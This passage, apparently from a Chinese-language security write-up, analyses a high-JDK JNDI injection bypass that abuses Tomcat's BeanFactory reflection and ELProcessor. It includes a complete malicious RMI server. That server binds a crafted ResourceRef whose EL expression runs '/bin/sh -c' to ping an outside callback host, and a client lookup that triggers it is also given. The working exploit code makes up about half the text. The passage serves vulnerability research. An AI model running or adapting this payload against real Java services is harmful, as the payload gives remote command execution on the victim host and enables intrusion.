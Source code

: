![alt text](image-420.png)

上图有一处反射，也就是这次高版本绕过所用到的 Sink，首先来看 Bean，它是在如下位置创建的-->

![alt text](image-421.png)

再从 beanClass 一步步向上跟，分别是-->

![alt text](image-422.png)

实际上 Bean 是来自于 Object obj 的，同样的思路再去跟一下 method、valueArray 这两个值，它们最后也是从 obj 来的，这里就不赘述了。而 obj 就是来自于 JNDI 绑定的那个 Reference，如下-->

![alt text](image-423.png)

所以相当于`method.invoke(bean, valueArray);`这一行代码是完全可控的，按照规范提前构建好 Reference 即可。

利用的时候有一个问题，这里相当于是一个受限的命令执行，何为受限？这里要去找一个只传一个 String 类型的参数却能命令执行的方法，且这个方法最好是 JDK 原生的，或者是常见的依赖。最后用的就是很熟悉的 el 表达式，而它也是 Tomcat 8 中自带的，非常合适，接下来去写一下利用的代码（拿 RMI 去写了）：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;
import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class HighJDKRMILDAPServer {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(1099);
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "xxx=eval"));
        ref.add(new StringRefAddr("xxx", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','ping 6y7d5.cxsys.spacetab.top']).start()\")"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("referenceWrapper", referenceWrapper);
    }
}
```

然后 Client 端代码保持正常即可，如下-->

```java
import javax.naming.InitialContext;

public class JNDIRMIClient
{
    public static void main( String[] args ) throws Exception
    {
        String uri = "rmi://localhost:1099/referenceWrapper";
        InitialContext initialContext = new InitialContext();
        IRemoteObject remoteObject = (IRemoteObject) initialContext.lookup(uri);
    }
}
```
